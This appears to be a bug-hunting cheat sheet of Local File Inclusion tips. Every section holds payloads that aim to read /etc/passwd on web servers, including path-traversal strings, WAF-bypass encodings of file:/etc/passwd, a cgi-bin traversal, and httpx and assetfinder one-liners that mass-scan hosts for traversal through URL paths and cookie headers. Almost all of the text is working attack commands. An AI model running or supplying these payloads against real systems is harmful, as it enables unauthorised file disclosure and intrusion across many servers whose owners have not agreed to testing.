 
					LFI Tips for hunting:
					---------------------
 #Tips 1:
-------------
 	Always recommedn looking at the target's IP ranges.
	/api/geojson?url=file:///etc/passwd


 #Tips 2:
 ---------
 
 	Ngix Path Traversal
        httpx -l url.txt -path "///////../../../../../../etc/passwd" -status-code -mc 200 -ms 'root:'

        - If you got any 'cgi.bin' directory - you can inject this payload:
	 127.0.0.1/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

	List of open source tools for AWS security: defensive, offensive, auditing, DFIR, etc.
        [https://t.co/LT4x1FmZ2i]


 #Tips 3:
 ----------
 	LFI WAF bypass:

 	file:/etc/passwd?/
	file:/etc/passwd%3F/
	file:/etc%252Fpasswd/
	file:/etc%252Fpasswd%3F/
	file:///etc/?/../passwd
	file:///etc/%3F/../passwd
	file:${br}/et${u}c/pas${te}swd?/
	file:$(br)/et$(u)c/pas$(te)swd?/

	
	_# Try this paload: 	
	/v1/docs//..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\/etc/passwd HTTP/1.1
 	 
	Note: Its not working from browser


 #Tip 4:
 -----------
 	How to find LFI at scale using @pdiscoveryio httpx>
	$ cat host | httpx -nc -t 250 -p 80,443,8080,8443,4443,8888 -p "///////../../../etc/passwd" -mr "root:x" | anew myP1s.txt


### Cookie LFI At Scale 🔥🔥🔥
```bash
cat rootDomains.txt | assetfinder -subs-only | httpx -t 60 -nc -p 80,443,8080,8443,9001,9002,9002,9003 -H "Cookie:usid=../../../../../../../../../../../../etc/passwd" -mc 200 -mr "root:x:"
```












